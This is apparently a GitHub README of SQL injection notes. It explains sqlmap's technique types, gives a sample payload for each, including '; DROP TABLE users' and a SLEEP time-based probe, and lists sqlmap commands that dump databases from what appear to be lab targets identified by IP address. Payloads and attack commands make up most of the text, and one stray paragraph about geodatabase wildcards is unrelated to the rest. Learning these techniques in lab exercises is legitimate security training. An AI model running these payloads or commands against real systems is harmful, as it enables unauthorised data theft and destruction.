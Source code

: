 # SQL-Inyeccion

<h2> 💻 Boolean-based blind SQL Injection 💻</h2>

<h3> SQLMap </h3> 

<strong> Type of atacks that SQL Map suports. The technique characters BEUSTQ refers to the following: </strong>


<ul>
<li>B: Boolean-based blind	</li>
<li>E: Error-based			</li>
<li>U: Union query-based	</li>
<li>S: Stacked queries		</li>
<li>T: Time-based blind		</li>		
<li>Q: Inline queries		</li>
</ul>

<h4> Boolean-based blind </h4>

<p> Boolean-based SQL injection is a technique which relies on sending an SQL query to the database. The result allows an attacker to judge whether the payload used returns true or false, even though no data from the database are recovered </p>

```sql
AND 1=1
```

<h4> Error-based </h4>

<p> Error-based SQL injection is an In-band injection technique where the error output from the SQL database is used to manipulate the data inside the database. In In-band injection, the attacker uses the same communication channel for both attacks and collect data from the database.</p>

```sql
AND GTID_SUBSET(@@version,0)
```


<h4> Union query based </h4>

<p> Union based SQL injection allows an attacker to extract information from the database by extending the results returned by the original query. The Union operator can only be used if the original/new queries have the same structure (number and data type of columns). </p> 

```sql

UNION ALL SELECT 1,@@version,3

```


<h4>Stacked queries</h4>

<p> Stacked queries provide a lot of control to the attacker. By terminating the original query and adding a new one, it will be possible to modify data and call stored procedures. This technique is massively used in SQL injection attacks and understanding its principle is essential to a sound understanding of this security issue.</p>

```sql

; DROP TABLE users

```
<h4>Time-based blind SQL Injection</h4>

<p> What is a time-based blind SQL injection? In a time-based SQL injection, the attacker sends SQL queries to the database, which force the database to wait for a specified amount of time before responding. ... This allows the attacker to know if the result is true or false, even though no data from the database is returned.</p>

```sql
AND 1=IF(2>1,SLEEP(5),0)

```

<h4> Examples </h4> 

```bash

sqlmap -u "http://68.183.43.71:31928/case2.php" --data 'id=1' --batch --dump
```

```bash

sqlmap -u "http://68.183.43.71:31928/case2.php" --data 'id=1' --batch --dump
```

```bash


sqlmap -u "http://46.101.14.236:31381/case3.php" -H 'Cookie: id=1*' --batch --dump
```


```bash
sqlmap -r pass --batch --dump


```

<p> El símbolo de porcentaje (%) significa que se acepta cualquier elemento en su lugar: un carácter, cien caracteres o ningún carácter. Los comodines que utiliza para consultar geodatabases personales son el asterisco (*) para cualquier número de caracteres y el signo de pregunta (?) para un carácter. </p>

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"


```


```bash
curl 'http://46.101.14.236:30396/case5.php?id=1' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Referer: http://46.101.14.236:30396/case5.php' -H 'Upgrade-Insecure-Requests: 1'

```


```bash
sqlmap -u "http://46.101.14.236:30396/case5.php?id=1" --dump --batch --level=5 -v --risk=3 -T flag5

sqlmap -u "http://46.101.8.93:30951/case1.php?id=1" --search -C style --batch

table 'users' in database 'testdb'  

```


```bash

sqlmap -u "http://46.101.8.93:30951/case1.php?id=1" --dump -D testdb -T users 

sqlmap -u "http://46.101.8.93:32590/case8.php" --data="id=1&t0ken=MEu9sTsYcBvyxR3KngqBo5c5fJrwr2ITxJQLIjlWx4" --csrf-token="t0ken" --batch --dump

```


```bash
sqlmap -u "http://46.101.14.236:30154/case11.php?id=1" --dump --batch --tamper=between --random-agent

```



